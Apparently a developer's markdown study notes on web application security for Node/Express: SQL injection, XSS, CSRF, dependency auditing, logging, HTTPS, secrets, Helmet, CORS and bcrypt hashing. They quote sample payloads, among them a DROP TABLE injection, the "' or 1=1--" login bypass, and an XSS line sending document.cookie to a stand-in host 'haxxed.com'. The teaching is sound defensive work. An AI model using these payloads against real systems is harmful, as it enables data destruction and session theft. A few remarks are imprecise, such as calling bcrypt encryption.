



# Security



## Injections

Injections means injecting code in another piece of code.

### SQL Injection



#### Normal statement

`INSERT INTO sqlinjection (email) VALUES ('user@example.com')`

#### Injection

`INSERT INTO sqlinjection (email) VALUES (; DROP TABLE users; --)` 

- This statement drop the `users` table
- `--` means comment everything after it

`' or 1=1--`

- Can be used on password fields
- Leave an empty string and verify that 1 equals 1 which is obviously true and can return the full user's information.

Anytime a user has to **input** something, we're vulnerable to injections !

### JS Injection

We can not inject inline scripts because they are executed when the original page is parsed.

What we can do instead is the following : ``

An alert will be triggered on submit. This is possible with `innerHTML` ! A way to fix this is to use `createTextNode`.

### What to remember

- `Sanitize input` : validating and cleaning input. We're making sure our inputs have the type that we want (a phone number has to have 10 digits, etc)
- `Parametrize queries` : also called prepared statements. Prevent SQL Injections. It precompiles SQL statements so that we can only provide the parameters to the statement.
- `Knex.js or other Object Relational Mappers` : these are libraries that parametrize queries. Knex is quite popular.

[Exercice](https://www.hacksplaining.com/exercises/sql-injection#/start)

## 3rd party libraries

Always be careful with 3rd party libraries because anybody can load up his package on NPM. We have to use packages are well-known, well-respected and constantly updated.

### `nsp` and `snyk`

#### Installation

* `npm install -g nsp`
* `npm install -g snyk`

#### Usage

`nsp` checks the `package.json` file. We can do it by running `nsp check`

`snyk` : audits the `node_modules` directory. We can do it by running `snyk test`

### `npm audit`

Since NPM 6, we can use `npm audit`.

It allows us to recursively analyze your dependency trees to identify specifically what’s insecure — so we can swap in a new version or find a safer alternate dependency.

## Logging

Logging is about gathering user informations.

Big security issue : insufficient loging ! Having good logging means that we are able to detect issues quickly and prevent any bad things that might be happening.


### Morgan

`npm install morgan` : HTTP request logger

We can use it in an Express app : `app.use(morgan('tiny'))` or `app.use(morgan('combined'))` (more informations)

### Winston

- `npm install winston` : "a logger for just about everything", winston is like `console.log` but with a lot of features

#### Usage

- `winston.log('info', 'hello')`
- `winston.log('info', 'user input:', userInput)`
- `winston.error('fatal error')`

We should log as much informations as we can but we shouldn't log personal informations. Never log system errors on the front end.


## HTTPS everywhere

HTTPS : SSL/TLS certificates

While HTTP is a plain text protocol, so it's not secure at all to transmit passwords over this protocol, we must use HTTPS.

### Solutions

- [Let's Encrypt](https://letsencrypt.org/)
- [Cloudflare](https://www.cloudflare.com/) : if we host our files within cloudflare, we already have HTTPS. They also have DDOS protection.

## XSS & CSRF

### XSS

XSS allows an attacker to execute scripts in a victim's browser.

For example, if someone does a JS injection (remember the `img` example) when posting a comment! The script will be executed in all users browser !

One common example will be that one : `window.location = 'haxxed.com?cookie=' + document.cookie`

It means go to the `haxxed` website and send your cookie. XSS is used for **session hijack**. We need to sanitize input!

[Explanation](https://www.hacksplaining.com/exercises/xss-stored#/)

[Solution](https://www.hacksplaining.com/prevention/xss-stored)

### CSRF

Cross-Site Request Forgery is an attack that forces an end user to execute unwanted actions on a web application in which they're currently authenticated.

With a little help of social engineering (such as sending a link via email or chat), an attacker may trick the users of a web application into executing actions of the attacker's choosing. If the victim is a normal user, a successful CSRF attack can force the user to perform state changing requests like transferring funds, changing their email address, and so forth. If the victim is an administrative account, CSRF can compromise the entire web application

To prevent these attacks, we can set in the headers the `Content-Security-Policy`.

We can also use the [`csurf`](https://github.com/expressjs/csurf) package.

[Explanation](https://www.hacksplaining.com/exercises/csrf)

[Solution](https://www.hacksplaining.com/prevention/csrf)

### Resources 

- [CSP](https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP)
- [Cookies](https://developer.mozilla.org/en-US/docs/Web/HTTP/Cookies)
- [Cross site scripting for dummies](https://hackernoon.com/cross-site-scripting-for-dummies-be30f76fad09)

## Code secrets

### Environmental variables

There are really useful when you have to store API keys, usernames, passwords. In short, all sensitive data.

For this, we can create at the root of a project a `.env` file that contains all the environmental variables like these : 

```
GOOGLE_API_KEY=fjeia3JI109FfaAz
MY_SECRET_PASSWORD=SomeReallyS3curePassword
```

We can add these variables with this [package](https://www.npmjs.com/package/dotenv) (dotenv)

`create-react-app` already **set up** this for us.

### Commit history

GitHub commits and history are **public**, so never put all sensitive data on it ! **NEVER** !

These search results are enough to demonstrate it : `https://github.com/search?p=2&q=remove+password&type=Commits`

## Secure headers

Helmet helps you secure your Express apps by setting various HTTP headers. It's not a silver bullet, but it can help!

[Helmet](https://github.com/helmetjs/helmet)




### Resources

- [HTTP explanation](https://code.tutsplus.com/tutorials/http-the-protocol-every-web-developer-must-know-part-1--net-31177)
- [HTTP header fields](https://www.tutorialspoint.com/http/http_header_fields.htm)

## Access Control

Acess Control is having restrictions on what authenticated users are allowed to do or not.

**Principal of least privilege** : limiting access rights for users to the bare minimum permissions they need to perform their work.

[**cors**](https://www.npmjs.com/package/cors) can help us with that. 

This is a good snippet of what the cors package can do :

```js
var whitelist = ['http://example1.com', 'http://example2.com']
var corsOptions = {
  origin: function (origin, callback) {
    if (whitelist.indexOf(origin) !== -1) {
      callback(null, true)
    } else {
      callback(new Error('Not allowed by CORS'))
    }
  }
}

app.use(cors(corsOptions))
```

## Data management

- Always have back ups.
- Limit sensitive data exposure
- Encryption : use [bcrypt](https://www.npmjs.com/package/bcrypt) to encrypt all sensitive data, mostly passwords !

```js
const userSchema = new Schema({
  username: String,
  password: String,
  isModerator: false
});

userSchema.pre('save', function (next) {
  const user = this;

  if (!user.isModified('password')) return next();

  const salt = bcrypt.genSaltSync(10);
  user.password = bcrypt.hashSync(user.password, salt);

  return next();
});

userSchema.methods.validPassword = function (password) {
  return bcrypt.compareSync(password, this.password);
}

export default mongoose.model('User', userSchema);
```

We must not trust anyone and be careful with authentication !

## Additional resources

- [Watch your hack](https://watchyourhack.com/)
- [hacksplaining](https://www.hacksplaining.com/lessons)